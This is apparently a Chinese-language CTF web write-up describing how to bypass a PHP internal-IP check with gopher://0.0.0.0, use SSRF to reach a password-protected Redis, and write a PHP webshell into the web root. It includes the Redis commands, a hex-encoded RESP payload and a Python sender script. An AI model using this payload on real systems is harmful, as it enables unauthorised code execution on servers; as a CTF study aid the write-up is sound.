

tags:: [[CTFWEB/SSRF]], [[CTFWEB/Redis]]

-
- # 思路
	- 绕过题目的IP检测进行SSRF, 先打hint.php, 然后打带密码的redis
- # 绕过IP检测
	- 题目会检测IP和请求类型
		- `ip2long('127.0.0.0')>>24 == $int_ip>>24 || ip2long('10.0.0.0')>>24 == $int_ip>>24 || ip2long('172.16.0.0')>>20 == $int_ip>>20 || ip2long('192.168.0.0')>>16 == $int_ip>>16;`
		- `$match_result=preg_match('/^(http|https|gopher|dict)?:\/\/.*(\/)?.*$/',$url);`
	- 可以使用gopher配合`0.0.0.0`访问本地，绕过检测
- # hint.php
	- `file_put_contents($_POST['file'],"<?php echo 'redispass is root';exit();".$_POST['file']);`
	- 提示redis的密码是root
- # 带密码的redis
	- 首先在本地打开redis客户端和服务端，tcpdump抓包
		- `tcpdump -i lo -s 0 port 6379 -w redis.pcap`
	- 本地客户端操控本地服务端，tcp流被tcpdump记录
		- ```redis
		  set evilkey "\n\n<?php\nsystem($_POST['data']);\n?>\n\n"
		  config set dir /var/www/html/
		  config set dbfilename redis.php
		  save
		  ```
	- 用wireshark打开包，追踪TCP流，仅显示客户端发送的字符，以Raw格式显示，此时屏幕上的16进制数据就是客户端发送的字符，按照TCP包换行
		- 
	- 将raw格式的数据转换成urlencode的数据，放入gopher协议中，发送
		- ```python
		  s = """
		  2a310d0a24370d0a434f4d4d414e440d0a
		  2a320d0a24340d0a617574680d0a24340d0a726f6f740d0a
		  2a330d0a24330d0a7365740d0a24370d0a6576696c6b65790d0a2433360d0a0a0a3c3f7068700a73797374656d28245f504f53545b2764617461275d293b0a3f3e0a0a0d0a
		  2a340d0a24360d0a636f6e6669670d0a24330d0a7365740d0a24330d0a6469720d0a2431340d0a2f7661722f7777772f68746d6c2f0d0a
		  2a320d0a24310d0a650d0a24390d0a72656469732e7068700d0a
		  2a340d0a24360d0a636f6e6669670d0a24330d0a7365740d0a2431300d0a646266696c656e616d650d0a24390d0a72656469732e7068700d0a
		  2a310d0a24340d0a736176650d0a
		  """.replace("\n", "")
		  
		  redis_payload = enc_dec.long_to_bytes(int(s, 16))
		  redis_payload = "gopher://0.0.0.0:6379/_" + enc_dec.urlencode(redis_payload)
		  r = base_get(url, params = {
		      "url": redis_payload
		  })
		  print(r.text)
		  ```
-